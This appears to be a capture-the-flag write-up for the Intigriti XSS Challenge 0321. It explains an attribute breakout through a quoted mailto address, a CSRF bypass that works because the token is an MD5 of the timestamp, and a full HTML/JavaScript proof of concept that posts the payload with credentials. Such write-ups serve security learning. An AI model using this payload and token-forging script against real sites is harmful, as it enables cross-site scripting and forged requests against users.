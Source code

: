 ```yaml
---
title:      Intigriti - XSS Challenge 0321
author:     Bruno Halltari
pubDate:       October 28 2021 16:38:00
description:    Escape from a non-standard attribute
categories: Intigriti web exploitation
heroImage: /writeup_images/intigriti21.png
tags:
 - Intigriti
 - Web Exploitation
 
---
```

## Intigriti — XSS Challenge 

![Capture](https://user-images.githubusercontent.com/59454895/112804703-fff84980-9074-11eb-972e-85a85c837655.PNG)

## Let's start

The challenge website had an input field to enter notes where we could write what we want.
First of all i tried to fuzz in order to see how the challenge would react , the first thing i noticed was a csrf token and our notes in the post request,
i also noticed that if we send a special character to escape the html tag with any strange element it will be sanitized by the server . After a while i
found out that the notes went through htmlspecialchars() function, which should help to prevent xss on this field because it can convert elements like < or > into  HTML entities.

Fortunately during my test i also tried to put an email in the note field ,it  helped me to find a hidden feature (the mailto attribute did not appear with other types of inputs).

![Capture3](https://user-images.githubusercontent.com/59454895/112806481-18696380-9077-11eb-95b0-8221d5b8cc54.PNG)

I tought it was interesting bacause maybe we could escape since the email address appears inside the href attribute of the HTML tag.
I decided to read how "mailto" works from the rfc , and i found out there is a strange way to declare the email with this attribute:
``` "\\\"it's\ ugly\\\""@example.org; ``` .

 It was a very good find , because it could allow to inject javascript between ``` "\\\"it's\ ugly\\\" ```  and ``` "@example.org; ```
  
the final payload was :
``` "\\\"traffik\prova\\\"\ onmouseover=alert('flag{THIS_IS_THE_FLAG}');//"@outlook.it  ```

The following payload breaks out of the attribute and adds an onmouseover event.
![Capture6](https://user-images.githubusercontent.com/59454895/112814874-063ff300-9080-11eb-9319-a2ce218340fb.PNG)


## CSRF Token bypass
The challenge had CSRF token(in this case hashed with MD5) built in. The page generates a token and stores it in a hidden form input.  That's a problem for our final POC because the server ensure that the form hasn’t been submitted by a malicious site thanks to this token , so we need to bypass it. 

First of all i tried to generate an empty csrf token and a csrf token of the same length as the original but nothing worked.
After a while i noticed that there was also a comment with a timestamp and it helped me a lot , because after a research i understood that the token was generated by taking the unix timestamp and hashandled it in md5 , that's not effective as a protection because is easy to predict .


![Capture5](https://user-images.githubusercontent.com/59454895/112812171-15717180-907d-11eb-91a2-a6b0f9df6459.PNG)

So in order to finish the challenge i made a POC where i could send my xss payload inside the notes parameter with the post request thanks to ``` XMLHttpReques ``` ,  to bypass the csrf token i just took the date with ``` Date.now() ``` function in js and hashandled all in md5.
Final POC:

```html
<html>
  <head>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/3.1.9-1/core.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/3.1.9-1/md5.js"></script>
  </head>
  <body>
    <button onclick="Esegui()">Execute Payload</button>
    <script>
        function Esegui() {
          var url = "https://challenge-0321.intigriti.io/";
          var flag = "\ onmouseover=alert('flag{THIS_IS_THE_FLAG}');//"
          var xss_payload = "\\\bruno\halltari\\\" + flag + "@outlook.it "

          var d = Date.now().toString().substr(0,10);
          var csrf = CryptoJS.MD5(d).toString();
          var data = "csrf=" + csrf + "&notes=" + xss_payload;

          var request1 = new XMLHttpRequest();
          request1.open("GET",url);
          request1.withCredentials = true;

          request1.onreadystatechange = function () {
            var request2 = new XMLHttpRequest();
            request2.withCredentials = true;
            request2.open("POST", url);
            request2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            request2.send(data);
          }

          request1.send();
        }
    </script>
</body>
</html>
```
